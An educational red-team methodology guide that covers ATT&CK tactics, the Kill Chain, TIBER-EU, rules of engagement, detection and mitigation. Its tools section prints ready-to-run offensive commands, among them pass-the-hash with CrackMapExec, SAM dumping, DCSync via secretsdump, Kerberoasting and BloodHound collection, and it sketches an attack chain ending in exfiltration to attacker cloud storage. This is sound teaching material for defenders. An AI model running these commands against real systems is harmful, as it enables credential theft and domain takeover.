


# Red Team Methodology

> **A red team engagement is an adversary simulation where a skilled offensive security team attempts to compromise an organisation using real-world attacker TTPs, testing people, processes, and technology together.**

---

## 🧠 What Is It?

Imagine your company hires a group of professional "fake burglars" to try breaking into your office — picking locks, tailgating employees, sweet-talking receptionists, cloning access cards. They do everything a real burglar would do, then hand you a report of every gap they found.

A **red team engagement** is that, but for your digital and physical security posture. Unlike a standard penetration test (which is more like a building safety inspection), red teaming is full-scope adversary simulation. The goal is not to find every vulnerability — it's to answer: *"Can an attacker with real-world skills achieve our most critical business impact?"*

---

## 🏗️ How It Works

Red teaming is structured around **adversary simulation**: mirroring a specific threat actor (e.g., FIN7, APT29, ransomware-as-a-service affiliates) and testing whether your defences can detect, respond to, and contain them.

Key distinctions from a pentest:

| Dimension | Penetration Test | Red Team Engagement |
|---|---|---|
| **Scope** | Defined systems/IPs | Full organisation (people, process, tech) |
| **Goal** | Find as many vulns as possible | Achieve defined business objective |
| **Time** | Days to 2 weeks | 4–12 weeks |
| **Stealth** | Not required | Critical — avoid detection |
| **Blue team aware** | Often yes | No (blind) — or limited read-in |
| **Reporting** | Vulnerability list + CVSS | Attack narrative + detection gaps |
| **Realism** | Medium | High — mirrors real threat actor |
| **Physical** | Rarely | Often included |
| **Social Engineering** | Optional | Typically included |
| **Crown jewels focus** | No — broad coverage | Yes — target specific assets |
| **MITRE ATT&CK mapping** | Partial | Comprehensive |
| **Purple team option** | No | Yes — after blind phase |
| **Cost** | Lower | Higher |
| **Personnel** | 1–3 testers | 3–8 specialists (operator, lead, OSINT, phish, C2) |

---

## 📊 Diagram

```mermaid
flowchart TD
    A[Red Team Engagement Lifecycle] --> B[Planning & Scoping]
    B --> B1[Define Crown Jewels]
    B --> B2[Threat Intelligence Profile]
    B --> B3[Rules of Engagement]
    B --> B4[Deconfliction Contacts]

    A --> C[Reconnaissance]
    C --> C1[OSINT - Passive]
    C --> C2[Active Scanning]
    C --> C3[Target Employee Profiling]

    A --> D[Initial Access]
    D --> D1[Phishing Campaign]
    D --> D2[External Service Exploitation]
    D --> D3[Physical / Vishing]

    A --> E[Execution & Establish Foothold]
    E --> E1[Deploy C2 Beacon]
    E --> E2[Situational Awareness]

    A --> F[Privilege Escalation]
    F --> F1[Local Admin]
    F --> F2[Domain Admin / Tier-0]

    A --> G[Lateral Movement]
    G --> G1[Credential Theft]
    G --> G2[Move to Crown Jewels]

    A --> H[Objective Completion]
    H --> H1[Data Exfiltration]
    H --> H2[Simulate Ransomware Impact]
    H --> H3[Reach Crown Jewel System]

    A --> I[Reporting & Debrief]
    I --> I1[Executive Report]
    I --> I2[Technical Report]
    I --> I3[Purple Team Replay]
```



---

## ⚙️ Technical Details

### TTP — Tactics, Techniques, and Procedures

- **Tactic**: The *why* — the adversary's goal at a given phase (e.g., "Persistence")
- **Technique**: The *how* — the method used (e.g., "Scheduled Task/Job")
- **Sub-technique**: More specific implementation (e.g., "Scheduled Task/Job: Scheduled Task" T1053.005)
- **Procedure**: The *exact implementation* — specific tool, command, config used by a specific actor

> Example: APT29 (Cozy Bear) **Tactic** = Persistence, **Technique** = T1547.001 Registry Run Keys, **Procedure** = Adding `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` entry pointing to a PowerShell download cradle.

TTPs are mapped to the **MITRE ATT&CK** framework to standardize reporting and allow blue teams to build detections.

---

### MITRE ATT&CK Framework — All 14 Tactics

The ATT&CK matrix is the industry standard for cataloguing adversary behaviour. Enterprise ATT&CK covers Windows, macOS, Linux, Cloud, Network, Containers.

#### 1. Reconnaissance (TA0043)
*Gathering information before the attack.*

| ID | Technique | Description |
|---|---|---|
| T1595 | Active Scanning | Scanning IP ranges, port scanning (nmap) |
| T1592 | Gather Victim Host Info | OS, running services, patch levels |
| T1589 | Gather Victim Identity Info | Employee names, emails, credentials from leaks |
| T1598 | Phishing for Information | Pretexting to get info without malware |
| T1596 | Search Open Technical Databases | Shodan, Censys, crt.sh for subdomains |

#### 2. Resource Development (TA0042)
*Building or acquiring infrastructure/tools.*

| ID | Technique | Description |
|---|---|---|
| T1583.001 | Acquire Infrastructure: Domains | Register lookalike domains |
| T1583.003 | Acquire Infrastructure: VPS | Rent VPS for C2 |
| T1587.001 | Develop Capabilities: Malware | Custom implants |
| T1588.002 | Obtain Capabilities: Tools | Download Cobalt Strike, Sliver |
| T1586 | Compromise Accounts | Hijack social media for spearphish source |

#### 3. Initial Access (TA0001)
*Getting the first foothold.*

| ID | Technique | Description |
|---|---|---|
| T1566.001 | Phishing: Spearphishing Attachment | Malicious Office doc / PDF |
| T1566.002 | Phishing: Spearphishing Link | Link to credential harvester |
| T1190 | Exploit Public-Facing Application | ProxyShell, Log4Shell, etc. |
| T1078 | Valid Accounts | Stuffed/breached credentials |
| T1195 | Supply Chain Compromise | Malicious npm/PyPI package |

#### 4. Execution (TA0002)
*Running attacker-controlled code.*

| ID | Technique | Description |
|---|---|---|
| T1059.001 | PowerShell | `powershell -enc <base64>` |
| T1059.003 | Windows Command Shell | `cmd.exe /c whoami` |
| T1204.002 | User Execution: Malicious File | User opens weaponised doc |
| T1053.005 | Scheduled Task | `schtasks /create` |
| T1047 | WMI | `wmic process call create` |

#### 5. Persistence (TA0003)
*Maintaining access across reboots.*

| ID | Technique | Description |
|---|---|---|
| T1547.001 | Registry Run Keys | Auto-run on login |
| T1053.005 | Scheduled Task/Job | Recurring execution |
| T1543.003 | Windows Service | Malicious service |
| T1037.001 | Logon Script | Run script at logon |
| T1136 | Create Account | Add backdoor user |

#### 6. Privilege Escalation (TA0004)
*Gaining higher-level permissions.*

| ID | Technique | Description |
|---|---|---|
| T1068 | Exploitation for Privilege Escalation | Kernel exploit, CVE-2021-34527 (PrintNightmare) |
| T1055 | Process Injection | Inject into SYSTEM process |
| T1134 | Access Token Manipulation | Token impersonation |
| T1484 | Domain Policy Modification | GPO abuse |
| T1611 | Escape to Host | Container breakout |

#### 7. Defense Evasion (TA0005)
*Avoiding detection.*

| ID | Technique | Description |
|---|---|---|
| T1562.001 | Disable or Modify Tools | Kill AV process |
| T1027 | Obfuscated Files/Information | Encoded payloads |
| T1055 | Process Injection | Inject into legitimate process |
| T1070 | Indicator Removal | Clear logs |
| T1218 | System Binary Proxy Execution | LOLBins (certutil, mshta) |

#### 8. Credential Access (TA0006)
*Stealing credentials.*

| ID | Technique | Description |
|---|---|---|
| T1003.001 | OS Credential Dumping: LSASS | Mimikatz, procdump |
| T1558.003 | Steal/Forge Kerberos Tickets: Kerberoasting | Request TGS for SPN |
| T1557 | Adversary-in-the-Middle | Responder LLMNR/NBT-NS |
| T1110 | Brute Force | Password spraying |
| T1555 | Credentials from Password Stores | KeePass, browser creds |

#### 9. Discovery (TA0007)
*Learning about the environment.*

| ID | Technique | Description |
|---|---|---|
| T1082 | System Information Discovery | `systeminfo`, `uname -a` |
| T1083 | File and Directory Discovery | `dir /s`, `find / -name` |
| T1018 | Remote System Discovery | `net view`, `nmap` |
| T1087 | Account Discovery | `net user /domain` |
| T1615 | Group Policy Discovery | `gpresult /r` |

#### 10. Lateral Movement (TA0008)
*Moving through the network.*

| ID | Technique | Description |
|---|---|---|
| T1021.001 | Remote Services: RDP | xfreerdp, Restricted Admin PtH |
| T1021.002 | SMB/Windows Admin Shares | PsExec, smbexec |
| T1021.006 | Windows Remote Management | evil-winrm, WinRS |
| T1550.002 | Pass the Hash | CrackMapExec, wmiexec |
| T1550.003 | Pass the Ticket | Mimikatz kerberos::ptt |

#### 11. Collection (TA0009)
*Gathering target data.*

| ID | Technique | Description |
|---|---|---|
| T1005 | Data from Local System | Harvest sensitive files |
| T1039 | Data from Network Shared Drive | Browse SMB shares |
| T1113 | Screen Capture | Screenshot collection |
| T1056.001 | Keylogging | Capture keystrokes |
| T1560 | Archive Collected Data | Zip before exfil |

#### 12. Command and Control (TA0011)
*Communicating with compromised systems.*

| ID | Technique | Description |
|---|---|---|
| T1071.001 | Application Layer Protocol: Web | HTTP/HTTPS beacons |
| T1071.004 | DNS | DNS C2 (dnscat2, iodine) |
| T1090 | Proxy | Redirectors, domain fronting |
| T1095 | Non-Application Layer Protocol | ICMP C2 |
| T1573 | Encrypted Channel | TLS C2 traffic |

#### 13. Exfiltration (TA0010)
*Getting data out.*

| ID | Technique | Description |
|---|---|---|
| T1041 | Exfiltration Over C2 Channel | Data through beacon |
| T1048 | Exfiltration Over Alt Protocol | DNS exfil, ICMP exfil |
| T1567.002 | Exfil to Cloud Storage | rclone to Mega/S3 |
| T1030 | Data Transfer Size Limits | Chunked exfil |
| T1029 | Scheduled Transfer | Off-hours exfil |

#### 14. Impact (TA0040)
*Causing damage or disruption.*

| ID | Technique | Description |
|---|---|---|
| T1486 | Data Encrypted for Impact | Ransomware simulation |
| T1489 | Service Stop | Stop critical services |
| T1490 | Inhibit System Recovery | Delete VSS shadow copies |
| T1485 | Data Destruction | Wipe files |
| T1498 | Network Denial of Service | DoS simulation |

---

### Cyber Kill Chain (Lockheed Martin)

The kill chain is a linear model. Breaking any link stops the attack.


| Stage | Description | Attacker Actions | Defender Controls |
|---|---|---|---|
| **1. Recon** | Harvesting target info | OSINT, Shodan, LinkedIn | Minimise public footprint |
| **2. Weaponisation** | Building exploit + payload | Embed macro in doc, compile implant | No direct visibility — threat intel |
| **3. Delivery** | Getting payload to target | Phishing email, USB drop, exploit | Email gateway, AV, web proxy |
| **4. Exploitation** | Code executes | Macro runs, browser exploit fires | Patch management, disable macros |
| **5. Installation** | Persistent implant placed | Drop RAT, add registry key | EDR, application whitelisting |
| **6. C2** | Beacon calls home | HTTP/DNS beacon established | Firewall egress, DNS filtering |
| **7. Actions** | Achieve objective | Exfil data, deploy ransomware | DLP, anomaly detection, IR |

---

### TIBER-EU Framework

**TIBER-EU** (Threat Intelligence-Based Ethical Red Teaming for the European Union) is a European framework for testing financial institutions' critical functions against advanced persistent threats.

**Three phases:**

1. **Preparation Phase**: Scoping, generic threat landscape report, NDA/legal agreements
2. **Testing Phase**: Targeted Threat Intelligence (TTI) report commissioned from threat intel provider → Red team delivers attack based on TTI → Test 12+ weeks
3. **Closure Phase**: Remediation guidance, purple team replay, regulatory reporting

**Key difference from normal red team**: A separate, independent threat intelligence provider produces a report identifying *which real APT groups would target this organisation* — the red team then emulates those specific actors.

---

### Assumed Breach Scenarios

Sometimes instead of testing *if* an attacker can get in, you test *what happens after* they're in.

**Scenario types:**
- **Workstation compromise**: Start with a beacon on a standard user's laptop (simulates phishing success)
- **Domain user access**: Given valid AD credentials — no beacon needed
- **Server access**: Start on a DMZ web server — simulates exploitation of public-facing app
- **Cloud credentials**: Start with leaked AWS/Azure keys

**Why**: Guarantees meaningful testing of post-exploitation detection, lateral movement controls, and AD security — even if perimeter defences are strong.

---

### Purple Teaming

Purple teaming is red + blue team **collaboration**. Instead of a blind engagement, both teams work together:



**Benefits**: Blue team learns to detect each TTP in real-time; Red team validates detection coverage; Coverage gaps addressed immediately.

---

### Red Team Planning Essentials

#### Crown Jewels Identification
Work with client to identify what an attacker would *most want*:
- Domain Controller (AD takeover)
- Financial systems / SWIFT terminals
- Customer PII database
- Source code repositories
- SCADA/ICS control systems
- CEO/CFO email accounts

#### Rules of Engagement (RoE)
The legal and operational contract governing the engagement:

```
- Authorised IP ranges / networks
- Excluded systems (production DBs, HA systems)
- Excluded techniques (no DoS, no destructive payloads)
- Hours of operation (24/7 or business hours only)
- Deconfliction hotline (SOC emergency contact)
- Geographic restrictions
- Data handling (what data can be touched/exfiltrated in test)
- Notification requirements (if critical infra at risk)
```

#### Deconfliction
*What happens if the SOC calls the police?*  
A deconfliction process ensures security operations, incident response, and legal teams have a way to verify an alert is a red team activity — without prematurely ending the engagement.

**Common approach**: Encrypted email chain with engagement lead + CISO. SOC only calls if they suspect real compromise; red team lead confirms or denies within 30 minutes.

---

### Engagement Phases & Timeline



---

### Red Team Tooling Overview

| Category | Tool | Purpose |
|---|---|---|
| **C2** | Cobalt Strike | Full-featured commercial C2 |
| **C2** | Sliver | Open-source Go C2 |
| **C2** | Havoc | Open-source C2 framework |
| **Recon** | Amass | DNS enumeration / OSINT |
| **Recon** | theHarvester | Email/subdomain harvesting |
| **Recon** | Shodan | Internet-facing asset discovery |
| **Phishing** | GoPhish | Phishing campaign platform |
| **Phishing** | Evilginx2 | MiTM phishing (bypasses MFA) |
| **Creds** | Mimikatz | Windows credential extraction |
| **Creds** | Rubeus | Kerberos abuse toolkit |
| **Lateral** | CrackMapExec | SMB/WinRM/MSSQL lateral movement |
| **Lateral** | Impacket | Python suite for Windows protocols |
| **Lateral** | BloodHound | AD attack path visualisation |
| **Privesc** | WinPEAS / LinPEAS | Local privilege escalation enum |
| **Privesc** | PowerUp | PowerShell privesc checks |
| **Evasion** | Donut | Shellcode generator (.NET/PE) |
| **Evasion** | ScareCrow | EDR-bypass payload generator |
| **Pivoting** | Ligolo-ng | Transparent network pivoting |
| **Pivoting** | Chisel | TCP tunnelling over HTTP |

---

## 💥 Exploitation Step-by-Step

### Mapping a Real Attack to MITRE ATT&CK

**Scenario**: FIN7-style attack against a retail company

```
1. [T1589] Recon: theHarvester -d targetcorp.com -b google,linkedin
2. [T1583.001] Infra: Register targetcorp-helpdesk.com, set up GoPhish
3. [T1566.001] Initial Access: Spearphish CFO with malicious Excel (T1059.005 VBA macro)
4. [T1059.001] Execution: Macro spawns PowerShell download cradle
5. [T1071.001] C2: Cobalt Strike HTTPS beacon established
6. [T1003.001] Cred Access: Mimikatz LSASS dump
7. [T1550.002] Lateral: Pass-the-Hash to file server
8. [T1482] Discovery: BloodHound AD enumeration
9. [T1558.003] Kerberoast: Request TGS for SQL service account
10. [T1021.001] Lateral: RDP to DC with cracked service account
11. [T1003.006] DCSync: Dump krbtgt hash
12. [T1567.002] Exfil: rclone sync to attacker-controlled cloud storage
```

### Building a MITRE Navigator Layer

```bash
# Install MITRE ATT&CK Navigator locally
git clone https://github.com/mitre-attack/attack-navigator.git
cd attack-navigator/nav-app
npm install && npm start
# Then import a JSON layer file marking your TTPs
```

---

## 🛠️ Tools

### BloodHound — AD Attack Path Analysis
```bash
# Install BloodHound CE (Docker)
git clone https://github.com/SpecterOps/BloodHound.git
cd BloodHound
docker compose up -d

# Collect data with SharpHound (on target)
.\SharpHound.exe -c All --zipfilename bloodhound_output

# Collect from Linux with bloodhound-python
pip install bloodhound
bloodhound-python -u 'user' -p 'password' -d corp.local -ns 192.168.1.10 -c All

# Key BloodHound queries
# Find all paths to Domain Admin
MATCH p=shortestPath((n:User)-[*1..]->(m:Group {name:"DOMAIN ADMINS@CORP.LOCAL"})) RETURN p

# Find Kerberoastable users
MATCH (u:User {hasspn:true}) RETURN u.name, u.displayname, u.description
```

### CrackMapExec — Swiss Army Knife
```bash
# Test credentials across subnet
cme smb 192.168.1.0/24 -u administrator -H 'aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0'

# Execute command
cme smb 192.168.1.10 -u administrator -p 'Password1' -x 'whoami'

# Dump SAM
cme smb 192.168.1.10 -u administrator -p 'Password1' --sam

# Spider shares
cme smb 192.168.1.10 -u user -p 'Password1' --shares
```

### Impacket Suite
```bash
# PsExec equivalent
python3 psexec.py corp.local/administrator:Password1@192.168.1.10

# WMI execution
python3 wmiexec.py corp.local/administrator:Password1@192.168.1.10

# DCSync attack
python3 secretsdump.py corp.local/administrator:Password1@192.168.1.10 -just-dc

# Kerberoasting
python3 GetUserSPNs.py corp.local/user:Password1 -dc-ip 192.168.1.10 -request
```

---

## 🔍 Detection

Red team activities leave detectable traces. Key detection opportunities:

| Activity | Detection Signal | Log Source |
|---|---|---|
| LSASS dump | Process access to lsass.exe | Windows Security 4656/4663 |
| Pass-the-Hash | Logon Type 3 with NTLM from unusual source | Windows Security 4624 |
| BloodHound collection | LDAP queries, DCE/RPC | DC Audit / Zeek |
| Scheduled task creation | Task creation events | Security 4698 |
| PSExec | Service creation via SMB | Security 7045, Sysmon 1 |
| PowerShell encoded cmds | ScriptBlock logging | PowerShell 4104 |
| Beacon checkin pattern | Periodic HTTP to external IP | Proxy / Firewall |
| DNS C2 | High-frequency DNS TXT queries | DNS logs |
| Registry run keys | Registry modification | Sysmon 13 |

---

## 🛡️ Mitigation

| Control | Description |
|---|---|
| **Tiered admin model** | Separate accounts for workstation, server, DC admin |
| **Privileged Access Workstations** | Admins use dedicated hardened PAW |
| **Credential Guard** | Virtualisation-based LSA secret protection |
| **EDR with memory scanning** | CrowdStrike, SentinelOne, Microsoft Defender for Endpoint |
| **LAPS** | Unique local admin passwords per machine |
| **Network segmentation** | VLAN isolation prevents lateral movement |
| **MFA everywhere** | VPN, O365, RDP — especially admin accounts |
| **JIT/JEA** | Just-in-time / Just-enough-admin privileges |
| **AppLocker / WDAC** | Block LOLBins and unsigned executables |
| **Email gateway** | Strip macros, sandbox attachments |

---

## 📚 References

- MITRE ATT&CK Framework: https://attack.mitre.org
- TIBER-EU Framework: https://www.ecb.europa.eu/paym/cyber-resilience/tiber-eu/html/index.en.html
- Lockheed Martin Cyber Kill Chain: https://www.lockheedmartin.com/en-us/capabilities/cyber/cyber-kill-chain.html
- Red Team Development and Operations (Joe Vest & James Tubberville)
- The Hacker Playbook 3 (Peter Kim)
- PTES Technical Guidelines: http://www.pentest-standard.org
- BloodHound Documentation: https://bloodhound.readthedocs.io
- Impacket: https://github.com/fortra/impacket
- LOLBAS Project: https://lolbas-project.github.io
